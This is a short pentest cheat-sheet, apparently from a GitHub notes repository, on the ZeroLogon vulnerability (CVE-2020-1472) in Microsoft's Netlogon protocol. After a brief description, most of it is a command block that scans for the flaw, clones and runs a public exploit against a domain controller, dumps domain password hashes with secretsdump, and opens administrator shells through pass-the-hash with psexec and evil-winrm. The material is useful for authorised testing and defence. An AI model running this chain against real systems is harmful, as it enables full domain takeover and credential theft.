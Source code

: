 # ZeroLogon - CVE-2020-1472

> Zero Logon exploits a feature of **MS-NRPC** (Microsoft NetLogon Remote Protocol), a critical authentication component of Active Directory that handles authentication of user and machine accounts. This attack is made possible by a bad implementation of the cryptography.
>
> * Release Date: Sep, 2020
> * Impact: Elevation of Privilege
> * CVSS score: 10

## Scan | Exploit

```bash
# scan
nxc smb $ip -u $user -p $password -M zerologon

# exploit
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472/
python3 cve-2020-1472-exploit.py $dc_netbios_name $dc_ip

secretsdump.py -just-dc -no-pass $dc_netbios_name\$@$dc_ip
# extract administrator hash

# connect
psexec.py Administrator:@$dc_ip -hashes $hash_admin
evil-winrm -i $dc_ip -u Administrator -H $NTLM_hash
```
